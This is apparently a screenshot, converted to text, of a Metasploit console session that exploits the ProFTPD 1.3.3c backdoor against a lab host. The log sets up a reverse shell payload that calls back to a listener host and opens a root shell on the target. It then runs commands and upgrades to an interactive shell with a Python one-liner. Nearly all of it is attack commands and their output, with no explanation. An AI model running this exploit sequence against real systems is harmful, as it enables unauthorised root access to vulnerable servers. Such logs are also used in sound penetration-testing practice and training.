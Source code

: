 Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.178.129  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.178.130  yes       The listen address (an interface may be specified)
   LPORT  4455             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP double handler on 192.168.178.130:4455 
[*] 192.168.178.129:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo bqKzlXW2Zm4A8n8i;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "bqKzlXW2Zm4A8n8i\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.178.130:4455 -> 192.168.178.129:50534) at 2023-02-22 08:11:26 -0500

id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
whoami
root

cd /home
ls
marlinspike
 
python -c 'import os; os.system("/bin/sh")' 

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
